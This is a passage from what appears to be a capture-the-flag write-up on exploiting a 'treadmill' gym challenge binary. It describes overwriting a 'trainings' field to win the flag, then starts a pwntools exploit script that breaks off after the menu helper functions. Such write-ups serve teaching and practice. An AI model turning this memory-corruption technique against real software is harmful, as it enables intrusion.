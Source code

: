 		![Alt Text](/assets/images/gym2_sploit_6.png)

		Yeah, we have overwritten the trainings field, which is marked with the
		orange rectangle, exactly with our desired value `0x1f21f036af`!
* If we finish our training, we receive the flag!
	![Alt Text](/assets/images/gym2_sploit_7.png)

## Full exploit

Here you can find my full exploit:

```python
#import sys
from pwn import *

context.update(arch="amd64", os="linux")
BINARY = "./treadmill"

def recv_menu():
    p.recvuntil(b"Stop training\n> ")

def create_training(name):
    p.sendline(b"1")
    p.sendlineafter(b"> ", name)

    # Enter six pitches
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b"> ", b"2")
    p.sendlineafter(b"> ", b"3")
    p.sendlineafter(b"> ", b"4")
    p.sendlineafter(b"> ", b"5")
    p.sendlineafter(b"> ", b"6")

def delete_training(nr):
```